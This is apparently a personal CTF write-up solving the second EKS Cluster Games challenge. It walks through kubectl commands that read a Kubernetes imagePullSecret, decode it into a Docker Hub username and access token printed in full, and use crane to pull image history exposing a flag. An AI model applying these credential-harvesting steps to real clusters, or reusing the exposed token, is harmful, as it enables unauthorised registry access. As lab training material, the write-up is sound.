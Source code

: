 ```yaml
---
title: "EKS Cluster Games: Challenge 2"
date: 2023-12-05T11:28:47+02:00
draft: true
toc: true
series:
  - EKS-cluster-games
---
```


This is my writeup of how I solved the second challenge of the [EKS Cluster Games](https://eksclustergames.com/).

## Challenge 2 - Registry Hunt

The challenge hints that we should check the container registries. They also link to a rather long post (18 minute read) on [Hells KeyChain](https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql). It seemed long, so I skipped it initially.

> A thing we learned during our research: always check the container registries.

### Recon: Pods and secrets

We are told we have the following permissions

```json
{
  "secrets": ["get"],
  "pods": ["list", "get"]
}
```

So, we can't list secrets, but let's see which pods are running

```shell
$ kubectl get pods
NAME                    READY   STATUS    RESTARTS   AGE
database-pod-2c9b3a4e   1/1     Running   0          30h
```
Just a single pod. Does it have anything interesting?

```javascript
$ k get pod database-pod-2c9b3a4e -o json
{
    "apiVersion": "v1",
    "kind": "Pod",
    "metadata": {
        "annotations": {
            "kubernetes.io/psp": "eks.privileged",
            [...]
        },
        [...]
    },
    "spec": {
        "containers": [
            {
                "image": "eksclustergames/base_ext_image",
                "imagePullPolicy": "Always",
                [...]
                "volumeMounts": [
                    {
                        "mountPath": "/var/run/secrets/kubernetes.io/serviceaccount",
                        "name": "kube-api-access-cq4m2",
                        "readOnly": true
                    }
                ]
            }
        ],
        [...]
        "imagePullSecrets": [
            {
                "name": "registry-pull-secrets-780bab1d"
            }
        ],
        [...]
        "volumes": [
            {
                "name": "kube-api-access-cq4m2",
                [...]
            }
        ]
    },
    "status": {
        [...]
        "containerStatuses": [
            {
                "containerID": "containerd://b427307b7f428bcf6a50bb40ebef194ba358f77dbdb3e7025f46be02b922f5af",
                "image": "docker.io/eksclustergames/base_ext_image:latest",
                "imageID": "docker.io/eksclustergames/base_ext_image@sha256:a17a9428af1cc25f2158dfba0fe3662cad25b7627b09bf24a915a70831d82623",
                [...]
            }
        ],
        [...]
    }
}
```

I noted a couple of things

- Is it running `eks.privileged`
- It always pulls the image
- It has an `imagePullSecret` named `registry-pull-secrets-780bab1d`
- It has a volume mounted called `kube-api-access-cq4m2`

### Looking into the secrets

Can we get the `kube-api-access-cq4m2` secret? No, it seems not (it later hit me that it was a volume, not a secret)

```
$ k get secret kube-api-access-cq4m2
Error from server (NotFound): secrets "kube-api-access-cq4m2" not found
```

What about the `imagePullSecret`?

```sh
$ k get secret registry-pull-secrets-780bab1d -o json
{
    "apiVersion": "v1",
    "data": {
        ".dockerconfigjson": "eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19"
    },
    "kind": "Secret",
    "metadata": {
        "annotations": {
            "pulumi.com/autonamed": "true"
        },
        "creationTimestamp": "2023-11-01T13:31:29Z",
        "name": "registry-pull-secrets-780bab1d",
        "namespace": "challenge2",
        "resourceVersion": "897340",
        "uid": "1348531e-57ff-42df-b074-d9ecd566e18b"
    },
    "type": "kubernetes.io/dockerconfigjson"
}
```

Success, it had a `.dockerconfigjson`! This seemed to be credentials for the registry at `index.docker.io/v1/`

```sh
$ echo "eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19" | base64 -d
{"auths": {"index.docker.io/v1/": {"auth": "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw=="}}}
$ echo ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw== | base64 -d
eksclustergames:dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo%
```
This might be 1 of the secrets which the Hells KeyChain refers to: the private container registry password.

### Getting stuck

What next? After hitting a dead end with the `kube-api-access-cq4m2` I started reading the post on Hells KeyChain.
I found they've found an `imagePullSecret` in the same manner as I.

They also taled about secrets being leaked in Docker layers. Let us look into that.

### Peeling off the layers

The challenge page mentioned a utility called `crane` was installed. So I started toying with it.

I found I could log in to the container registry using `crane auth login docker.io -u eksclustergames -p thepasswordfromabove`, and I was able to interact with the registry

```sh
$ crane ls eksclustergames/base_ext_image
latest
```

I tried listing other images, but there were none. I then searched for a way to get info on the layers, and found that `crane config` would provide me the history of an image

```sh
crane config eksclustergames/base_ext_image
{
    "architecture": "amd64",
    "config": {
        "Env": [
            "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
        ],
        "Cmd": [
            "/bin/sleep",
            "3133337"
        ],
        "ArgsEscaped": true,
        "OnBuild": null
    },
    "created": "2023-11-01T13:32:18.920734382Z",
    "history": [
        {
            "created": "2023-07-18T23:19:33.538571854Z",
            "created_by": "/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "
        },
        {
            "created": "2023-07-18T23:19:33.655005962Z",
            "created_by": "/bin/sh -c #(nop)  CMD [\"sh\"]",
            "empty_layer": true
        },
        {
            "created": "2023-11-01T13:32:18.920734382Z",
            "created_by": "RUN sh -c echo 'wiz_eks_challenge{REDACTED}' > /flag.txt # buildkit",
            "comment": "buildkit.dockerfile.v0"
        },
        {
            "created": "2023-11-01T13:32:18.920734382Z",
            "created_by": "CMD [\"/bin/sleep\" \"3133337\"]",
            "comment": "buildkit.dockerfile.v0",
            "empty_layer": true
        }
    ],
    "os": "linux",
    "rootfs": {
        "type": "layers",
        "diff_ids": [
            "sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f",
            "sha256:a70cef1cb742e242b33cc21f949af6dc7e59b6ea3ce595c61c179c3be0e5d432"
        ]
    }
}
```

and there is was, the command that created the layer containing the flag: `wiz_eks_challenge{REDACTED}` :rocket:


### Could it have been simpler?

Would we have been able to do this without the imagePullSecret? No, it seems not

```sh
$ crane auth logout docker.io
2023/11/02 21:05:35 logged out via /home/user/.docker/config.json
$ crane config eksclustergames/base_ext_image
Error: fetching config: reading image "eksclustergames/base_ext_image": GET https://index.docker.io/v2/eksclustergames/base_ext_image/manifests/latest: UNAUTHORIZED: authentication required; [map[Action:pull Class: Name:eksclustergames/base_ext_image Type:repository]]
```

